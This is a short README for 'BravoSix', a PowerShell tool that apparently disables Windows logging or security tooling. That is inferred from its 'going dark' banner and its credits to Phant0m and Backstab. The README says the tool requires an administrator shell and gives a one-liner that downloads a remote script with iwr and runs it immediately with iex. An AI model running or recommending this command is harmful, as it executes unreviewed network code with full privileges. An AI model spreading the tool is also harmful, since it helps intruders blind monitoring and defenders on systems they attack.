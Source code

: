 # BravoSix

___  ____ ____ _  _ ____    ____ _ _  _      ____ ____ _ _  _ ____    ___  ____ ____ _  _
|__] |__/ |__| |  | |  |    [__  |  \/       | __ |  | | |\ | | __    |  \ |__| |__/ |_/
|__] |  \ |  |  \/  |__|    ___] | _/\_ .    |__] |__| | | \| |__]    |__/ |  | |  \ | \_
-... .-. .- ...- ---    ... .. -..- --..--    --. --- .. -. --.    -.. .- .-. -.-

!! Require administrator shell

```powershell
iex (iwr https://github.com/RFC1918-hub/BravoSix/blob/main/Invoke-BravoSix.ps1 -UseBasicParsing)
Invoke-BravoSix
```

# Credits
https://github.com/hlldz/Phant0m
https://github.com/Yaxser/Backstab
